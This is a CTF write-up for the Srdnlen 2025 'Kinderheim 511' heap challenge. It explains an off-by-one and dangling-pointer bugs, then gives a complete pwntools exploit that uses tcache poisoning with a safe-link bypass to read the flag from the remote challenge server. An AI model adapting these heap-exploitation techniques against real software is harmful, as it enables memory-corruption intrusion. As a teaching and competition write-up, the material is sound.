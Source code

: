 ```yaml
---
date: '2025-01-21T18:49:00Z'
draft: false
title: 'Srdnlen 2025 - Kinderheim 511'
summary: "Heap challenge with the goal of achieving arbitrary write
to read the flag from the heap."

categories: ["Writeups"]
tags: ["pwn", "heap"]
author: "about:blankets"
ShowToc: true
---
```


> This challenge was solved by me and @Lotus

## Overview

The binary provided has the structure of a classic heap challenge, in fact a user has access to the following options:
1. `Create new memory`: gets user input and allocates a chunk to store it in, the pointer of the chunk is stored in a list.
2. `Recollect memory`: provided an index, prints the content of a memory.
3. `Erase memory`: provided an index, frees the memory and removes it from the list.

**Max input size**: 64 bytes
**Max number of memories**: 16

**The flag is stored on the heap, in the chunk just under the list**
## Vulnerabilities

Intentionally or unintentionally, there are plenty of vulns in the binary:
- `Negative indexes`: **collect_num** is the function used to retrieve and validate a user index, negative indexes pass the validation process. This vuln was not used in the final exploit and, from what I understood, was not intended by the author.

- `Off-by-one`: basically malloc gets called with a size which is one byte smaller than our input.
```c
len = strnlen(input, 0x40uLL) - 1;
printf("String collected. Len: %d\n", len);
memory = (char *)malloc(len);	
```

- `Dangling pointers`: the function that handles the deletion of a memory deletes a pointer only if it precedes a hole (empty slot in the list).
```c
int erase_memory(void **mem_list, int idx)
{
  int i;
  free(mem_list[idx]);
  for ( i = 0; i <= idx; ++i )
  {
    if ( !mem_list[i] )
	  // the function returns if a hole is found
      return puts("There's a hole in your memory somewhere...");
    if ( idx == i )
    {
      mem_list[i] = 0LL;
      return printf("Erased at slot %d", i);
    }
  }
  return puts("Ran out of memory.");
}
```


## Exploitation

The idea is to leak the heap and override the list with a pointer to the flag. 
#### Leak heap
1. Allocate 2 chunks and free the first, creating a hole
2. Free the second chunk (leave dangling pointer)
3. Allocate the chunk just freed from the tcache (now idx 1 and 2 of the list point to the same chunk)
4. Free the chunk again using idx 2 (now we have a pointer to a freed chunk at idx 1)
5. Leak heap by reading chunk 1

#### Allocate over the list
1. Leverage the off-by-one to gain overlapping chunks
	![overlapping-chunks](./overlapping-chunks.png)
	*Yes, I just wanted to practice with the graphics tablet..*

2. Change the fd of the overlapped chunk (make it point inside the list)
3. Allocate over the list, inserting the pointer to the flag in it
4. Fill the holes (that's needed because the function that handles the "memory recall" returns if it finds one)
5. Read the flag

#### Final Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("k511.elf_patched")

context.binary = exe
context.terminal = ["alacritty", "-e"]

env = {"FLAG": "flag{test}"}

NC_CMD = "nc k511.challs.srdnlen.it 1660"
gdbscript = \
"""
set resolve-heap-via-heuristic force
"""

def conn():
    if args.LOCAL:
        r = process([exe.path], env=env)
    elif args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript, env=env)
    else:
        r = remote(NC_CMD.split(" ")[1], int(NC_CMD.split(" ")[2]))

    return r

r = conn()

def free(idx):
    r.sendlineafter(b"Quit.", b"3")
    r.sendlineafter(b"require.", str(idx).encode())

def alloc(data):
    r.sendlineafter(b"Quit.", b"1")
    r.sendlineafter(b".", data)
    r.recvuntil(b"in slot")
    return int(r.recvline().split(b".")[0])

def read(idx):
    r.sendlineafter(b"Quit.", b"2")
    r.sendlineafter(b"require.", str(idx).encode())
    r.recvuntil(b"\n\t\"")
    return r.recvuntil(b"\"", True)

def main():

    alloc(b"A" * 0x16)
    alloc(b"A" * 0x26)
    free(1) # create hole
    free(2) # leaves dangling pointer

    # allocate from tcache (now same chunk is at idx 1 and 2)
    alloc(b"A" * 0x26) 
    free(2) # free to place forward pointer

    # read the freed chunk to leak heap
    heap_leak = u64(read(1).ljust(8, b"\0")) << 12
    success(f"Heap base: {hex(heap_leak)}")

    # leverage off-by-one to create overlapping chunks
    payload = b"A" * 0x18 + p16(0x41)
    alloc(payload) # idx 2
    alloc(b"A" * 0x16) # idx 3 (chunk to overlap)
    free(2)
    free(3)
    free(1) # goes in 0x40 tcache

    # allocate the overlapping chunk
    # change the fd of the overlapped chunk to allocate over the list
    payload = b"A" * 0x30
    payload += p64(((heap_leak+0x3d0) >> 12) ^ (heap_leak + 0x2d0)) # safe-link
    alloc(payload)

    alloc(b"A" * 0x16) # allocate the overlapped chunk
    
    # allocate over the list and place a ptr to the flag
    alloc(p64(heap_leak+0x330))

    alloc(b"A" * 0x16) # fill the hole
    print(read(6)) # read the flag

    r.interactive()


if __name__ == "__main__":
    main()
```

**FLAG**: `srdnlen{my_heap_has_already_grown_this_large_1994ab0a77f8355a}`
